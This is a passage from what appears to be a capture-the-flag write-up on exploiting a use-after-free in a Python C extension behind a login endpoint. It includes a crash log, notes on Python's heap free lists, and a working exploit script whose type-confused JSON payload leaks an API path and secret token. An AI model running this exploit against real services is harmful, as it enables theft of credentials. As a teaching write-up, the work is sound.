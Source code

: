 127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
127.0.0.1 - - [04/Jun/2019 20:35:26] "POST /auth HTTP/1.1" 200 -
Fatal Python error: deletion of interned string failed
[1]    21191 segmentation fault (core dumped)  python auth.py
{% endhighlight %}
I now had some sort of heap-based SIGSEV. The dictionary that Python expected to be there is now `free`'d / deallocated, and cause a crash. In order to exploit this, I had to [dive deeper](https://docs.python.org/2.7/c-api/memory.html).

*A couple important facts on Python:*
*1. Everything on Python is managed on a private heap, managed internally by Python.*
*2. Python's memory manager has different segments for each type of object. So integers, lists, dictionaries, etc. are all managed differently, but together, within the private heap.*
*3. These separate areas are managed like [fast bins](https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/bins_chunks.html#fast-bins): last in, first out.*
*4. This can be seen by reviewing the source code for [various](https://github.com/python/cpython/blob/master/Objects/dictobject.c#L1974] (deallocators)[https://github.com/python/cpython/blob/master/Objects/listobject.c#L360) -- if there is space on the `free_list`, it adds the pointer to the deallocated object to the `free_list` for that type of object.*


Since this code path did _not_ check the "type" of `"data"` passed in the JSON payload, and it dealloc'd that "type" of object from memory (meaning that pointer would now be pointing to a different object of the same "type" of `"data"`), AND `ses.so` returned that point to `auth.py` which printed it to the user, I knew I was on to something. By passing in various types of `"data"`, I should be able read the last item of that "type" created in Python's heap.

After a bit of trial and error with different object types, I was successful with: `{"data": []}`:
{% highlight python %}
import requests

HOST = 'localhost'
PORT = '5000'
BASE_URL = 'http://' + HOST + ':' + PORT

init = requests.get(BASE_URL)
cookies = init.cookies.get_dict()

for i in range(10):
    exploit = requests.post(
            BASE_URL + '/auth', 
            json={"data":{"username": "aaa", "password": "aaa"}},
            headers={'Content-Type': 'application/json'}, 
            cookies=cookies
    )

exploit = requests.post(
        BASE_URL + '/auth', 
        json={"data":[]},
        headers={'Content-Type': 'application/json'}, 
        cookies=cookies
)
if '/api/<api_key>' in exploit.text:
    print(exploit.text)
{% endhighlight %}
resulted in
{% highlight shell %}
➜  python exploit.py
{"authenticated":false,"result":"Cannot authenticate with data: ['/api/<api_key>/job', '1e18cb7c2be07907d12f52e505404081bd902e3af0fd6fd4437275bb71d7fe15', 1559695142] - Too many tentatives, wait 2 minutes!"}